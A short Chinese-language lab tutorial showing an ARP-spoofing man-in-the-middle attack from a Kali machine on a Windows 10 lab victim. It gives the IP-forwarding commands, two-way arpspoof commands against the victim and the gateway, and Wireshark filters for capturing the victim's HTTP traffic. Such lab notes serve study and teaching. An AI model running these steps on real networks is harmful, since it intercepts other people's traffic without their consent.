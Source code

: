 攻击机：kali2019_x64_en-us  
受害机：win10_pro_x64_zh-chs_commando

用到的软件：  
0：arpspoof（kali中自带）  
1：wireshark（kali中自带）

攻击机下：  
0：cat /proc/sys/net/ipv4/ip_forward # 查看是否开启ipv4的包转发，0为关闭，1为开启

1：echo 1 > /proc/sys/net/ipv4/ip_forward # 开启ipv4的包转发

2：修改文件/etc/sysctl.conf，取消注释net.ipv4.ip_forward=1这行 # 永久开启ipv4的包转发

3：ifconfig -a # 查看当前网卡名称

4：arpspoof -i eth0 -t 172.16.35.133 172.16.35.2 # 172.16.35.133是受害机的ip，172.16.35.2是网关ip，让受害机（172.16.35.133）以为网关（172.16.35.2）是我

5：arpspoof -i eth0 -t 172.16.35.2 172.16.35.133 # 这条命令中将受害者ip和网关ip互换，让网关（172.16.35.2）以为受害机（172.16.35.133）是我

6：让子弹飞一会（让mac欺骗的流量跑一会）

7：打开并启动wireshark后，设置过滤器为http and ip.addr==111.26.219.37 # 其中111.26.219.37为受害机访问的网站，注意这里是双等号不是单等号

8：wireshark过滤器总结  
http and ip.addr==111.26.219.37 and tcp.port==9090

受害机下：  
0：访问目标网站
